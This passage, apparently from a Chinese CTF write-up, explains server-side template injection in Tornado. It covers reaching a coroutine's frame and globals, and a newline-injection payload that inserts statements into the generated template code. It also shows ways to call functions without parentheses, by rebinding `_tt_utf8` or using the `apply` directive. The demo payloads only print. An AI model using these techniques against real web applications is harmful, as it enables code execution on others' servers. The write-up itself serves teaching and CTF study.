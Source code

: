 `_server_request_loop`是用于处理HTTP请求的async函数，直接调用async函数会产生一个`coroutine`对象，并把它作为参数传给`convert_yielded`。在`convert_yielded`函数中，判断yielded的类型，并进行封装。`coroutine`对象会进入最后一个elif语句中，并调用`_wrap_awaitable`，实际上就是调用`asyncio.ensure_future`，封装成一个Task。而`task._coro`就是原始协程对象，协程对象回保存协程的上下文，也就包含了frame、globals等信息。

这个也是比赛过程中成功解出题目的两只队伍使用的方法。

在比赛过程中还发现有选手尝试用`Template.generate`渲染一个新的模板，但这样需要填充Template的属性compiled，这就又遇到了该死的compile过滤（笑。

## 括号过滤

括号过滤是本题最trick的地方，同样需要阅读一下tornado的源码，理解模板引擎的运行过程。

可以在 https://github.com/tornadoweb/tornado/blob/208672f3bf6cbb7e37f54c356e02a71ca29f1e02/tornado/template.py#L320 这里加一个输出，观察一下模板引擎生成的python代码是什么样的。

```python
reader = _TemplateReader(name, escape.native_str(template_string), whitespace)
self.file = _File(self, _parse(reader, self))
self.code = self._generate_python(loader)
self.loader = loader
print(self.code)
```

当我们输入这样的模板时`{{2-1}}`，生成的python代码是这样的

```python
def _tt_execute():
    _tt_buffer = []
    _tt_append = _tt_buffer.append
    _tt_tmp = 2-1
    if isinstance(_tt_tmp, _tt_string_types): _tt_tmp = _tt_utf8(_tt_tmp)
    else: _tt_tmp = _tt_utf8(str(_tt_tmp))
    _tt_tmp = _tt_utf8(xhtml_escape(_tt_tmp))
    _tt_append(_tt_tmp)
    return _tt_utf8('').join(_tt_buffer)
```

如果在模板内插入一个换行`{{2-1%0a    print(1)}}`，就可以插一行新语句进去，或者用分号插入新语句也可以

```python
def _tt_execute():
    _tt_buffer = []
    _tt_append = _tt_buffer.append
    _tt_tmp = 2-1
    print(1)
    if isinstance(_tt_tmp, _tt_string_types): _tt_tmp = _tt_utf8(_tt_tmp)
    else: _tt_tmp = _tt_utf8(str(_tt_tmp))
    _tt_tmp = _tt_utf8(xhtml_escape(_tt_tmp))
    _tt_append(_tt_tmp)
    return _tt_utf8('').join(_tt_buffer)
```

这时候就可以整一些骚操作了，比如可以让`_tt_execute`提前返回。在题目中就可以把`_tt_utf8`替换成想要调用的函数，`_tt_tmp`替换成参数。不过替换后再次调用`_tt_utf8`时它可能会抱怨，所以可以先把之前的`_tt_utf8`存起来，操作完成之后再换回去。这里有一个小问题是`_tt_utf8`是外部给出的函数，并不在local作用域内，所以要先用global关键字声明一下。或者用`_tt_utf8 = lambda x:x`，重新定义一下也可以。

模板本身还提供了一个apply指令，用于函数调用。如果模板是`{%apply print%}1{%end%}`，生成的python代码就是这样的
